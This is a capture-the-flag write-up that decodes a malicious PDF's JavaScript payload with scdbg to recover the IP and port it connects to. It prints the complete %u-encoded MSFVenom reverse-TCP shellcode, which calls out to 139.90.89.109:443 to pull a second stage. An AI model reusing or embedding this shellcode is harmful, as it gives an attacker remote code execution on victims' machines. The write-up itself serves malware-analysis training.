 ### JS

> **Challenge Description:** The analyst team has extracted a code from a JS file for us from a malicious PDF. Please analyze the code and provide us the IP and port that it connects to.
>
> **Flag Format:** `ihack{IP:PORT}`
>
> **Hint:** Payload is generated using MSFVenom

### Solution

At first glance, the payload is Unicode encoded due to the appearance of `%u`. 

````
%ue8fc%u008f%u0000%u8960%u31e5%u64d2%u528b%u8b30%u0c52%u528b%u3114%u0fff%u4ab7%u8b26%u2872%uc031%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%u7549%u52ef%u528b%u5710%u428b%u013c%u8bd0%u7840%uc085%u4c74%ud001%u488b%u8b18%u2058%ud301%u8550%u74c9%u493c%u348b%u318b%u01ff%u31d6%uc1c0%u0dcf%u01ac%u38c7%u75e0%u03f4%uf87d%u7d3b%u7524%u58e0%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u58e0%u5a5f%u128b%u80e9%uffff%u5dff%u3368%u0032%u6800%u7377%u5f32%u6854%u774c%u0726%ue889%ud0ff%u90b8%u0001%u2900%u54c4%u6850%u8029%u006b%ud5ff%u0a6a%u8b68%u595a%u686d%u0002%ubb01%ue689%u5050%u5050%u5040%u5040%uea68%udf0f%uffe0%u97d5%u106a%u5756%u9968%u74a5%uff61%u85d5%u74c0%uff0a%u084e%uec75%u67e8%u0000%u6a00%u6a00%u5604%u6857%ud902%u5fc8%ud5ff%uf883%u7e00%u8b36%u6a36%u6840%u1000%u0000%u6a56%u6800%ua458%ue553%ud5ff%u5393%u006a%u5356%u6857%ud902%u5fc8%ud5ff%uf883%u7d00%u5828%u0068%u0040%u6a00%u5000%u0b68%u0f2f%uff30%u57d5%u7568%u4d6e%uff61%u5ed5%uff5e%u240c%u850f%uff70%uffff%u9be9%uffff%u01ff%u29c3%u75c6%uc3c1%uf0bb%ua2b5%u6a56%u5300%ud5ff
````

However, the payload was actually generated by MSFVenom`js_le` using the format. Analyze the shellcode in `scdbg` to reveal the IP address and port.

```
Loaded 426 bytes from file C:\Users\JesusCries\Desktop\js-extracted.js
Detected %u encoding input format converting...
to bin..
Byte Swapping %u encoded input buffer..
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

4010aa  LoadLibraryA(ws2_32)
4010ba  WSAStartup(190)
4010d7  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)
4010e3  connect(h=42, host: 139.90.89.109 , port: 443 ) = 71ab4a07
4010fe  recv(h=42, buf=12fc5c, len=4, fl=0)
401141  closesocket(h=42)
4010d7  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)

Stepcount 2000001
```

**Flag:** `ihack{139.90.89.109:443}`
